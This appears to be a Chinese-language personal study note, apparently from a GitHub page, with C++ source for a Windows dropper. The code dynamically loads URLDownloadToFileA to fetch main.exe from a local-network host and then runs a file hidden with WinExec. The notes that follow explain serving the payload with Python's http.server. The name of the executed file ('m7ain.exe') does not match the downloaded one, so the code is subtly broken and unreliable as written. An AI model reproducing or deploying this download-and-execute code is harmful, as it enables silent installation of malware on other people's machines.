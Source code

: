   ```c++
  #include <urlmon.h>
  #include <Windows.h>
  typedef HRESULT(WINAPI* MY)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
  
  int main() {
  	HMODULE hurlmod = LoadLibrary("urlmon.dll");
  	MY function_ptr = (MY)GetProcAddress(hurlmod, "URLDownloadToFileA");
  	function_ptr(
  		NULL,
  		"http://192.168.1.190:8000/main.exe",		
  		"main.exe",				
  		0,
  		NULL
  	);
  	WinExec("m7ain.exe", SW_HIDE);
  }
  ```

+ 第二个代码遇到的问题：

    + python环境有点儿问题，无法下载http.service,无法再本地开启一个服务；

      + 已解决：使用anaconda来管理python版本，使之不再混乱，目前可以安装各种包。

      + 命令是`python -m http.server`(需要再包含目标程序的路径下打开anaconda的powershell或者打开powershell后切换路径，这样再浏览器访问的时候才可以下载到main.exe)

        ![image-20201023111553306](images/image-20201023111553306.png)

